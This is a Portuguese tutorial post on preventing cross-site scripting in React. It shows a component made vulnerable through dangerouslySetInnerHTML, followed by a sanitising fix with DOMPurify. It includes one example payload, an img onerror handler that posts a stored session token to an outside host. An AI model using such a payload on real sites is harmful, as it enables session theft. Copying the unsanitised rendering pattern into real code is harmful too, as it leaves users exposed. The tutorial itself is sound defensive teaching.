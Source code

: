 ```yaml
---
layout: default
title: Como se prevenir de ataques Cross-Site Scripting (XSS)
tags:
  - seguranca
  - javascript
  - frontend
date: 2024-12-28T10:18:00.000Z
---
```

Ataques Cross-Site Scripting (XSS) são uma das vulnerabilidades mais comuns e perigosas em aplicações web. Neste guia, você aprenderá o que é XSS, como ele funciona, e como proteger seu código contra esses ataques. Vamos mergulhar em um exemplo prático e aprender soluções eficazes usando bibliotecas como `DOMPurify`.

## O que é um ataque Cross-Site Scripting (XSS)?

Um ataque XSS ocorre quando invasores injetam scripts maliciosos em páginas da web visualizadas por outros usuários. Esses scripts podem contornar a mesma política de origem, permitindo que o invasor:

* Roube dados sensíveis (como tokens de sessão);
* Sequestre sessões de usuários;
* Desfigure websites;
* Espalhe malwares.

Entender como essas brechas surgem é o primeiro passo para preveni-las.

## Exemplo prático de vulnerabilidade XSS

Vamos analisar um exemplo de código React vulnerável a XSS:

```jsx
const Page = () => {
  const [content, setContent] = useState('');

  const handleSubmit = (event) => {
    event.preventDefault();
    const formData = new FormData(event.currentTarget);
    const content = formData.get('content');
    setContent(content);
  }

  return (
    <>
      <form onSubmit={handleSubmit}>
        <textarea name="content"></textarea>
        <input type="submit" value="Save" />
      </form>
      <p>{content}</p>
    </>
  );
}
```

### Problema: Renderização perigosa de HTML

Se um usuário digitar HTML no campo de texto e clicar em "Save", o conteúdo será exibido como texto puro. No entanto, se alterarmos a forma como o conteúdo é renderizado, o código torna-se vulnerável:

```diff
- <p>{content}</p>
+ <p dangerouslySetInnerHTML={{ __html: content }} />
```

Agora, qualquer código HTML será interpretado e renderizado, incluindo scripts maliciosos.

### Exemplo de Ataque

Se um invasor inserir o seguinte código no campo de texto:

```html
<img src=?? onerror="fetch('https:\/\/xss.com', { method: 'POST', body: localStorage.getItem('token') })">
```

O atributo `onerror` executa um script caso o atributo `src` falhe. Dessa forma, o invasor pode enviar os dados para um servidor externo.

Este é um exemplo de como XSS pode ser usado para roubar informações sensíveis de usuários.

## Solução: Sanitizando o conteúdo com `DOMPurify`

Para evitar vulnerabilidades XSS, precisamos limpar o conteúdo antes de renderizá-lo. Uma biblioteca popular para isso é a `DOMPurify`.

### Instalando a Biblioteca

Adicione a dependência ao seu projeto:

```
npm i dompurify
```

### Importando e Usando `DOMPurify`

Substitua a renderização perigosa pelo seguinte código:

```jsx
import DOMPurify from 'dompurify';

const sanitizedContent = DOMPurify.sanitize(content);

<p dangerouslySetInnerHTML={{ __html: sanitizedContent }} />
```

Agora, qualquer script malicioso será removido automaticamente antes da renderização.

## Conclusão

Ataques XSS podem ter consequências graves para seus usuários e aplicações. No entanto, com medidas simples como o uso de `DOMPurify`, é possível proteger seu código de forma eficaz.

Certifique-se de sempre sanitizar conteúdo dinâmico antes de renderizá-lo. Compartilhe este artigo com outros desenvolvedores para ajudar a criar aplicações mais seguras!
